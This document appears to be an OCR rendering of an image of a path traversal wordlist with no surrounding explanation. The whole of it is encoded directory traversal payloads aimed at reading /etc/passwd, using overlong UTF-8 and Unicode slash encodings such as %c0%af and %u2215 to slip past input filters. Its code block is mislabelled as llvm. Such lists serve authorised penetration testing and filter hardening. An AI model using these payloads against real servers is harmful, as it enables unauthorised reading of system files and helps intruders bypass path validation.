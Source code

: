 ```llvm
..%u2216..%u2216..%u2216..%u2216..%u2216etc/passwd
..%u2216..%u2216..%u2216..%u2216..%u2216etc%u2216passwd
..%u2215etc/passwd
..%u2215etc%u2215passwd
..%u2215../etc/passwd
..%u2215..%u2215etc/passwd
..%u2215..%u2215etc%u2215passwd
..%u2215..%u2215../etc/passwd
..%u2215..%u2215..%u2215etc/passwd
..%u2215..%u2215..%u2215etc%u2215passwd
..%u2215..%u2215..%u2215../etc/passwd
..%u2215..%u2215..%u2215..%u2215etc/passwd
..%u2215..%u2215..%u2215..%u2215etc%u2215passwd
..%u2215..%u2215..%u2215..%u2215../etc/passwd
..%u2215..%u2215..%u2215..%u2215..%u2215etc/passwd
..%u2215..%u2215..%u2215..%u2215..%u2215etc%u2215passwd
..%e0%80%afetc/passwd
..%e0%80%afetc%e0%80%afpasswd
..%e0%80%af../etc/passwd
..%e0%80%af..%e0%80%afetc/passwd
..%e0%80%af..%e0%80%afetc%e0%80%afpasswd
..%e0%80%af..%e0%80%af../etc/passwd
..%e0%80%af..%e0%80%af..%e0%80%afetc/passwd
..%e0%80%af..%e0%80%af..%e0%80%afetc%e0%80%afpasswd
..%e0%80%af..%e0%80%af..%e0%80%af../etc/passwd
..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/passwd
..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc%e0%80%afpasswd
..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af../etc/passwd
..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/passwd
..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc%e0%80%afpasswd
..%c1%9cetc/passwd
..%c1%9cetc%c1%9cpasswd
..%c1%9c../etc/passwd
..%c1%9c..%c1%9cetc/passwd
..%c1%9c..%c1%9cetc%c1%9cpasswd
..%c1%9c..%c1%9c../etc/passwd
..%c1%9c..%c1%9c..%c1%9cetc/passwd
..%c1%9c..%c1%9c..%c1%9cetc%c1%9cpasswd
..%c1%9c..%c1%9c..%c1%9c../etc/passwd
..%c1%9c..%c1%9c..%c1%9c..%c1%9cetc/passwd
..%c1%9c..%c1%9c..%c1%9c..%c1%9cetc%c1%9cpasswd
..%c1%9c..%c1%9c..%c1%9c..%c1%9c../etc/passwd
..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9cetc/passwd
..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9cetc%c1%9cpasswd
..%c0%afetc/passwd
..%c0%afetc%c0%afpasswd
..%c0%af../etc/passwd
..%c0%af..%c0%afetc/passwd
..%c0%af..%c0%afetc%c0%afpasswd
..%c0%af..%c0%af../etc/passwd
..%c0%af..%c0%af..%c0%afetc/passwd
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
..%c0%af..%c0%af..%c0%af../etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%afetc/passwd
..%c0%af..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
..%c0%af..%c0%af..%c0%af..%c0%af../etc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/passwd
..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
..%c0%80%5cetc/passwd
..%c0%80%5cetc%c0%80%5cpasswd
..%c0%80%5c../etc/passwd
..%c0%80%5c..%c0%80%5cetc/passwd
..%c0%80%5c..%c0%80%5cetc%c0%80%5cpasswd
```